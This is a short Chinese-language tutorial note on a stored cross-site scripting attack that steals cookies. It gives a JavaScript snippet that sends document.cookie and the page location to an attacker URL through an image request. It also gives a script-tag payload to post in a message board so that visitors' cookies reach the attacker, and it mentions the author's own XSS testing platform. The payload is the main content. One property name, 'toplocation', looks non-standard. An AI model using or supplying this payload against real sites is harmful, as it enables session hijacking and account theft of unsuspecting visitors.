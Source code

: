 ### XSS跨站脚本攻击-窃取Cookie

#### JavaScript 代码

```js
var img=document.createElement("img");
img.src="url?host="+escape(document.toplocation)+"&cookie="+escape(document.cookie);
document.body.appendChild(img);
```

#### XSS攻击代码

```html
<script src="javascript地址"></script>
```

```
我们将窃取Cookie的XSS攻击代码写到留言中，然后提交发布留言。当有人访问存储该恶意代码的页面时就会将它浏览器的Cookie发送给攻击者。
```

![image-20250222234523202](static/image/image-20250222234523202.png)

```
以下是我自己开发的一个XSS平台用于测试。
```

